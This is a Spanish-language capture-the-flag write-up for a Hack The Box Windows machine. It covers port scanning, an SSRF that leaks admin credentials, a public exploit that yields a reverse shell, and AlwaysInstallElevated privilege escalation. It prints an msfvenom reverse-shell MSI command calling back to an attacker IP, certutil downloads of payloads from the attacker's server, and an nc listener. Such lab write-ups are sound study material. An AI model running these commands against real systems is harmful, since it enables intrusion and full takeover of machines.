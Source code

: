 ## Summary

Tags: #SQLI #SSRF #SearchSploit #WinPEAS #AlwaysInstalledElevated #Msfvenom #Windows #Apache #PHP #HTTPS #HTTP #FileTransfer #LinuxtoWindows #Dirbuster #ReverShell #Nmap 

- IP -> 10.10.10.239
- Ports -> TCP (80, 135, 139, 445, 3306, 5000, 5440, 5986, 7680, 47001, 49664-70), UDP (idk)
- OS ->  Windows
- Services & Applications
    -  80 -> Apache httpd 2.4.46 

## Launchpad

-  [Launchpad](https://launchpad.net/ubuntu)
-  [WinPeas](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)

## Recon

```bash 
❯ ping -c 1 IP              # Verificar conectividad con la maquina victima 
```

```bash 
❯ nmap -p- --open --min-rate 5000 -sS -vvv -Pn -n IP -oG AllPorts  # Escaneo de puertos a la IP

❯ nmap -p<Ports> -sCV IP -oN Targeted                              # Scripts y version de los puertos encontrados

❯ nmap --script http-enum -p80 IP    # Hacemos un escaneo de 'directorios' con un diccionario pequeño de 'nmap'
```

```bash 
❯ whatweb IP       # Miramos las tecnologias que corren en la web 

❯ dirb IP          # Encontramos la ruta del '/admin'

	# Podemos buscar vulnerabilidades con el nombre de la pagina 'Voting System' para ver si es un CMS
```

```bash 
❯ searchsploit votem system      # Mirar si existen exploits y probamos algunos exploits que nos llevan a la autenticacion en el 'votem system' como admin

❯ searchsploit -x php/webapps/49445.py
	# x = Examinar el contenido del archivo 

❯ searchsploit -m php/webapps/49445.py
	# m = Mover o traer el archivo a nuestra maquina de atacante 
```

## Otra manera

```bash 
# Con el puerto 443 abierto podemos enumerar los dominios 

❯ openssl s_client -connect IP:443     # Inspeccionar el certificado para poder encontrar mas dominios los cuales podemos agregar a la ruta '/etc/hosts' de nuestra maquina de atacante 
```

```bash 
# Encontramos en el dominio 'staging.love.htb' un escaner de archivos, el cual nos pide una URL. Por lo que colocamos la de nuestra maquina victima para probar.


❯ python3 -m http.server 80      # Creamos un servidor para recibir la peticion 


# Despues, hacemos peticiones desde la web hacia su 'localhost' por lo que se puede observar que existe un SSRF. Hacemos peticiones a los demas puertos http que encontramos en el escaneo con 'nmap' y en el 5000 encontramos un usuario y una passwd. 

# Nos dirigimos al 'panel admin' y colocamos las credenciales 
```

## User

```bash 
# Una vez dentro del panel de 'votem system' buscamos el exploit en 'searchsploit' que nos ayudara a hacer una 'revershell' con un usuario 'autenticado'. Usamos el exploit en 'python', modificamos los parametros que nos pide y lo ejecutamos. 
```

```bash 
# Una vez dentro buscamos la primer flag llamada 'user.txt' en el desktop del usuario 
```

```bash 
# Para buscar una forma de escalar privilegios es usando la herramienta de 'WinPeas' que lo podemos descargar desde la siguiente URL:

❯ https://github.com/peass-ng/PEASS-ng/releases/tag/20240728-0f010225
```

```bash 
# Compartimos el archivo a la maquina Windows 

❯ certutil.exe -f urlcache -split http://IP-Atacante/winPeas.exe winPeas.exe # Maquina victima descargaremos el ejecutable

❯ python3 -m http.server 80       # Maquina atacante creamos un servidor para compartir el ejecutable
```

## Root

```bash 
❯ winPeas.exe    # Ejecutamos el archivo para buscar las vulnerabilidades en Windows 
```

```bash 
# Depues de ejecutar el 'WinPeas', se observa que encuentra 'AlwaysInstalledElevated' donde:
	AlwaysInstalledElevated set to 1 in HKLM!
	AlwaysInstalledElevated set to 1 in HKCU!

# Podemos ir al recurso de 'hacktricks.xyz' para abusar de eso.
```

```bash 
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.53 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi 

	# p = Payload 
	# platform = Plataforma de Windows 
	# a = Arquitectura 
	# f = Formato 
	# o = Output 

# Con esto nos crearemos una revershell en nuestra maquina de atacante para abusar del binario 'msi'
```

```bash 
# Compartimos el archivo a la maquina Windows 

❯ certutil.exe -f urlcache -split http://IP-Atacante/reverse.msi reverse.msi # Maquina victima descargaremos el ejecutable

❯ python3 -m http.server 80       # Maquina atacante creamos un servidor para compartir el ejecutable
```

```bash 
❯ msiexec /quiet /qn /i reverse.msi           # Ejecutamos de esta manera el archivo 'msi' en la maquina victima 
```

```bash 
❯ rlwrap nc -nlvp 443                          # Nos ponemos en escucha para recibir la revershell y ahora somos 'NT Authority\System' 
```